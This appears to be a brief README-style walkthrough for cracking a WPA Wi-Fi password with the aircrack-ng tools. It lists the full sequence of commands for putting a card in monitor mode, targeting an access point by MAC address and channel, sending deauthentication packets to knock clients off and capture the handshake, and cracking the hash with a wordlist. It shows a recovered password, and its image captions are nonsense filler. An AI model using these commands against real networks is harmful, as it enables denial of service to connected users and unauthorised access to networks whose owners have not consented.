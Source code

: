 `sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  
![Dear image, I hope you'll work how I... imagine](airodump-ng-1.png)

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  
![Mama dala corce bulke](airodump-ng-2.png)

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Because of this we'll be able to capture handshake (and password hash for later cracking)  
![nasmarowana maslem](airodump-ng-3.png)

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking
![wcinaj](aircrack-ng-1.png)
Password: 123456qwerty  
- might be faster to use `hashcat` instead o`aircrack-ng` wrapper


`dhcpclient eth0`  after wifi hacking NIC might have some problems. This command might help
